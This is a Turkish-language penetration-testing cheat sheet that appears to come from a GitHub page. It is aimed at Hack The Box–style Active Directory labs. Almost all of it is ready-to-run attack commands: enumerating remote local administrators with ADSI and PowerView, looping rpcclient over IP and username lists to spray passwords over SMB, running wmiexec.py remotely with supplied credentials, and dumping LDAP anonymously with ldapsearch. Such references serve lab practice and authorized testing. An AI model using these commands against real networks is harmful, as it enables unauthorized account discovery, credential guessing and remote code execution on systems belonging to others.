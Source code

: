## Yerel Yönetici Keşfetme

### Uzak Sunucunun Yerel Yönetici Kullanıcılarını Bulma:
```powershell
([ADSI]'WinNT://computer_name/Administrators').psbase.Invoke('Members') |%{$_.GetType().InvokeMember('Name', 'GetProperty', $null, $_, $null)}
```

### PowerView ile Yerel Yönetici Üye Listeleme:
```powershell
Get-NetLocalGroup -ComputerName computer_name
```

### API Kullanarak Yerel Yönetici Üye Listeleme:
```powershell
Get-NetLocalGroup -ComputerName computer_name -API
```

### Yerel Yönetici Kullanıcılarını Özyinelemeli Listeleme:
```powershell
Get-NetLocalGroup -ComputerName computer_name -Recurse
```

## SMB Kimlik Bilgileri Zorlaması

### Farklı IP Adreslerinde SMB Kullanıcılarını Listeleme:
```bash
cat ips.txt | while read line; do echo $line && rpcclient -U "Steins\username%P@ssword" -c "enumdomusers;quit" $line; done
```

### Kullanıcı Adları Üzerinden Test Yapma:
```bash
cat usernames.txt | while read line; do echo $line && rpcclient -U "$user%P@ssword" -c "getusername;quit" 10.10.10.10; done
```

### Python ile Zorlama:
```bash
python wmiexec.py domain/username:Passw0rd!@10.10.10.10 -dc-ip 10.10.10.1
```

## LDAP Keşfi

### LDAP Başlangıç Bilgileri:
```bash
ldapsearch -x -h 10.10.10.10 -s base namingcontexts
```

### Tüm LDAP Öğelerini Listeleme:
```bash
ldapsearch -x -h forest.htb.local -s sub -b 'DC=HTB,DC=LOCAL' | tee ldap_dump.txt
```
